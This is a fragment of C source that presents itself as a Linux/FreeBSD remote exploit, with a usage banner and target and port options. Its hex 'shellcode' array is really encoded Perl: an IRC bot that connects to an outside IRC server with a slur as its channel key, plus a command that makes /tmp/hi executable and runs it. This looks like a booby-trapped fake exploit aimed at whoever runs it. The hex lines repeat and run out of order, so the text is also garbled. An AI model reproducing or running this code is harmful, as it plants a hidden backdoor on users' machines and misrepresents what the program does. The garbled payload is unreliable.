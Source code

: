 
char fbsd_shellcode[] =
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70\x2f\x68\x69\x20\x32\x3e\x2f"
        "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b\x2f\x74\x6d\x70\x2f\x68\x69"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x7d\x7d\x23\x63\x68\x6d\x6f\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70"
        "\x2f\x68\x69\x20\x32\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b"
        "\x2f\x74\x6d\x70\x2f\x68\x69\x0a";
#define SIZE 0xffffff       
#define OFFSET 131
#define fremote build_frem(t,e,s,m,y)

void usage(char *arg){
        printf("\n[+] 0pen0wn 0wnz Linux/FreeBSD\n");
        printf("  Usage: %s -h <host> -p port\n",arg);
        printf("  Options:\n");
        printf("  \t-h ip/host of target\n");
        printf("  \t-p port\n");
        printf("  \t-d username\n");
        printf("  \t-B memory_limit 8/16/64\n\n\n");
}

#define FD 0x080518fc
#define BD 0x08082000
